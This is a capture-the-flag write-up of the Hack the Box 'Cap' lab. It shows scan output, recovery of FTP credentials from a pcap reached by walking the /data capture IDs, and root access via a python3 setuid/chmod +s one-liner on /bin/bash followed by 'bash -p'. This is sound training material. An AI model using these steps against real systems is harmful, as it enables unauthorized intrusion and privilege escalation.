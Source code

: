 ```yaml
---
layout: default
title: Cap
parent: Hack the Box Labs
nav_order: 3
---
```

![Header](images/cap.png)
<button type="button" name="button" class="btn">#pcap</button>
<button type="button" name="button" class="btn">#vsftpd</button>
<button type="button" name="button" class="btn">#LFI</button>
<button type="button" name="button" class="btn">#SUID</button>
# Enumeration
Example of what is seen on the site. Appears to be nestat, IP Config, and some form of PCAP analysis pages via the menu. We also see that we're signed in as 'Nathan'.  
![1](Pasted image 20210606202210.png)  
![2](Pasted image 20210606202126.png)  
![3](Pasted image 20210605154704.png)
## Nmap Scan:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 15:44 MDT
Nmap scan report for cap.htb (10.129.88.224)
Host is up (0.085s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

---clipped---
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 136.22 seconds
```

## GoBuster
```
└─$ cat gobuster.txt~
/data (Status: 302)
/ip (Status: 200)
/netstat (Status: 200)
/capture (Status: 302)
```
## Nikto
```
└─# nikto -host 10.129.84.196            
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.129.84.196
+ Target Hostname:    10.129.84.196
+ Target Port:        80
+ Start Time:         2021-06-06 20:17:02 (GMT-6)
---------------------------------------------------------------------------
+ Server: gunicorn
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: HEAD, OPTIONS, GET
+ 7916 requests: 0 error(s) and 4 item(s) reported on remote host
+ End Time:           2021-06-06 20:29:41 (GMT-6) (759 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

- No Public Vulnerabilities published for VSFTP 3.0.3
- GoBuster identified a few paths, most of these readily available just by navigating around the site (no hidden admin or anything like that).

Every time I generate a new pcap, I notice that /data/# increments by 1.
![6](Pasted image 20210614213207.png)
I do some testing by sending it pings, attempting to connect to ftp and ssh, etc and inspect the pCAPs hoping to glean some relevant info. Since I see this incrementation I check to see if maybe I can investigate historical PCAPs, e.g. maybe some administrative tasks taking place before I even connected. We start at 0 and within, sure enough, is a clear text connection established to the FTP server including password:  
![4](Pasted image 20210614212825.png)  
![5](Pasted image 20210614212953.png)

Connect to SSH with the above credentials and grab the user flag.

### Privilege Escalation
```bash
nathan@cap:/$ sudo -l
[sudo] password for nathan:
Sorry, user nathan may not run sudo on cap.
nathan@cap:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/chsh
/usr/bin/su
/usr/bin/fusermount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/snap/snapd/11841/usr/lib/snapd/snap-confine
/snap/snapd/8542/usr/lib/snapd/snap-confine
/snap/core18/2066/bin/mount
/snap/core18/2066/bin/ping
/snap/core18/2066/bin/su
/snap/core18/2066/bin/umount
/snap/core18/2066/usr/bin/chfn
/snap/core18/2066/usr/bin/chsh
/snap/core18/2066/usr/bin/gpasswd
/snap/core18/2066/usr/bin/newgrp
/snap/core18/2066/usr/bin/passwd
/snap/core18/2066/usr/bin/sudo
/snap/core18/2066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2066/usr/lib/openssh/ssh-keysign
/snap/core18/1997/bin/mount
/snap/core18/1997/bin/ping
/snap/core18/1997/bin/su
/snap/core18/1997/bin/umount
/snap/core18/1997/usr/bin/chfn
/snap/core18/1997/usr/bin/chsh
/snap/core18/1997/usr/bin/gpasswd
/snap/core18/1997/usr/bin/newgrp
/snap/core18/1997/usr/bin/passwd
/snap/core18/1997/usr/bin/sudo
/snap/core18/1997/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1997/usr/lib/openssh/ssh-keysign
```

/bin/bash is what I want to run as root, looks like someone set the SUID bit on it already:
```bash
nathan@cap:~$ ls -la /usr/bin/bash
-rwsr-sr-x 1 root root 1183448 Jun 18  2020 /usr/bin/bash
```

I could've skipped to running /bin/bash -p, but reset the machine to make sure this was the intended escalation path.

I know a way to set the SUID bit via python (thanks to the cyber mentor and tiberius' linux privelege escalation courses) and thankfully python3 is on this box
```bash
nathan@cap:~$ python3 --version
Python 3.8.5
nathan@cap:~$
```

Use python3 to set the SUID bit on /bin/bash
```bash
python3 -c 'import os; os.setuid(0);  os.system("chmod +s /bin/bash")'
```

Execute Bin/Bash elevated:
```bash
nathan@cap:~$ /bin/bash -p
bash-5.0# whoami
root
```

CD'd up to /root and cat'd out the root.txt
